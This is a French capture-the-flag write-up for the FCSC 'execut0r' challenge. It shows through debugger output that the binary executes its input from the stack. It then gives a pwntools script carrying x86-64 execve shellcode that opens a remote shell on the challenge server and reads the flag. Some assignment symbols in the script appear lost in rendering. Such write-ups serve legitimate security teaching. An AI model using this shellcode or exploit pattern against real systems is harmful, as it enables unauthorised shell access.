 Quand on lance le programme, il attends un input et dans tous les cas il renvoie un SIGSEGV. Pas étonnant, le programme appel `0x0000000000001154 <+31>:    call   0x1030 <read@plt>`. Or la function read `ssize_t read(int fd, void *buf, size_t count)`  tente de lire jusqu'à un nombre d'octets count du descripteur de fichier fd dans le tampon commençant à buf. Et elle retourne les octets lus au niveau de RSP (buf).

Par exemple si j'envoie plein de 'A', juste apres la call @read, j'ai 

```
RBP: 0x7fffffffe550 --> 0x1
RSP: 0x7fffffffe350 ('A' <repeats 74 times>, "\n")
```

L'instruction d'après est  `0x0000000000001159 <+36>:    lea    rax,[rbp-0x200]` qui correspond à RSP (0x7fffffffe550-0x200 0x7fffffffe350)
La suivante est `0x0000000000001160 <+43>:    call   rax`, ou rax est maintenant égale à rsp.

Pour résumer, le programme lit une entrée et essaye d'exécuter cette entrée. 
Comme suggéré dans le titre du chall, on va lui donner en entrée un shellcode (x86-64) qu'il va exécuter gentillement.

Pour cela :

```python[class=line-numbers]
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

buf# b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

p remote("challenges.france-cybersecurity-challenge.fr",2051)
# p process('./execut0r')
p.sendline(buf)
p.interactive()
```

ou buf est le shellcode. 

on obtient donc un shell et :

```bash[class=line-numbers]
python3 shellcode.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2051: Done
[*] Switching to interactive mode
$ id
$ ls
execut0r
flag.txt
$ cat flag.txt
FCSC{9f8a2eb6fbb26644dab670f1a948c449ba36102417efc3e40c3bd4774bfb4f7a}
```


# Baby Morse
